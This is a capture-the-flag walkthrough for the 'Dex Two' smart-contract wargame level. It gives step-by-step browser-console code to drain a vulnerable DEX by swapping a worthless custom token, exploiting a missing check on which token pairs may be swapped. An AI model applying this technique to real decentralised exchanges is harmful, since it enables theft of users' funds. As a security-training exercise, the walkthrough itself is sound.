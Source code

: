 # Dex Two

# Problem Statement
```
This level will ask you to break `DexTwo`, a subtlely modified Dex contract from the previous level, in a different way.
You need to drain all balances of token1 and token2 from the `DexTwo` contract to succeed in this level.
You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

Things that might help:
- How has the swap method been modified?
- Could you use a custom token contract in your attack?
```

# Solution

Compared to `DexOne`, the `swap` function has been changed. This `require` has been removed:
```
require((from == token1 && to == token2) || (from == token2 && to == token1) ...
```
Because of this, you can now create your own tokens and use them to swap for `token1` and `token2`.

Deploy your own token (`UselessToken.sol`) and create a variable for it in your internet browser console:
```
const uselessToken = "0xUSELESS_TOKEN_ADDRESS";
```

Setup variables and view the starting token amounts:
```
const token1 = await contract.token1()
const token2 = await contract.token2()
Number(await contract.balanceOf(token1,player))
// returns 10
Number(await contract.balanceOf(token2,player))
// returns 10
Number(await contract.balanceOf(token1,contract.address))
// returns 100
Number(await contract.balanceOf(token2,contract.address))
// returns 100
```

Approve the `DexTwo` contract to move `token1` and `token2` tokens on your behalf:
```
await contract.approve(contract.address, 500)
```

Approve the `DexTwo` contract to move your `uselessToken` token on your behalf:
```
const data = web3.eth.abi.encodeFunctionCall({
  name: 'approveSpender',
  type: 'function',
  inputs: [
    {
        type: 'address',
        name: 'spender'
    },
    {
        type: 'uint256',
        name: 'amount'
    }
  ]
}, [contract.address, 100])
web3.eth.sendTransaction({ to: uselessToken, from: player, data: data })
```

Next, we need to determine the amount of `uselessToken` to give to the `DexTwo` contract because the formula needs the value to not be 0 in the denominator it will most likely cause a divide by 0 error in the `DexTwo` contract's `getSwapAmount` function:
```
function getSwapAmount(address from, address to, uint amount) public view returns(uint){
  return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)))
}
```
Lets give `DexTwo`'s contract 1 `uselessToken`:
```
const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "transfer",
    type: "function",
    inputs: [
      {
        type: "address",
          name: "to",
      },
      {
        type: "uint256",
        name: "amount",
      },
    ],
  },
  [contract.address, 1]
)

web3.eth.sendTransaction({
  from: player,
  to: uselessToken,
  data: data
})
Number(await contract.balanceOf(uselessToken,contract.address))
1
```

Finally figure the amount of tokens to swap to drain all of `DexTwo`'s `token1` tokens:
```
amt * to / from = received tokens
x * 100 / 1 = 100
x * 1 = 1
x = 1
```
Nice. So all we need to swap is 1 `uselessToken` to receive all 100 `token1` tokens.
```
await contract.swap(uselessToken, token1, 1)
```

Confirm you now have all `token1` tokens:
```
Number(await contract.balanceOf(uselessToken,contract.address))
// returns 2
Number(await contract.balanceOf(token1,contract.address))
// returns 0
Number(await contract.balanceOf(token1,player))
// returns 110
```

Great! Now just repeat the entire process for `token2`.<br>

We've completed this lesson!

# Key Learnings
- If you design a DEX where anyone could list their own tokens without the permission of a central authority, then the correctness of the DEX could depend on the interaction of the DEX contract and the token contracts being traded.

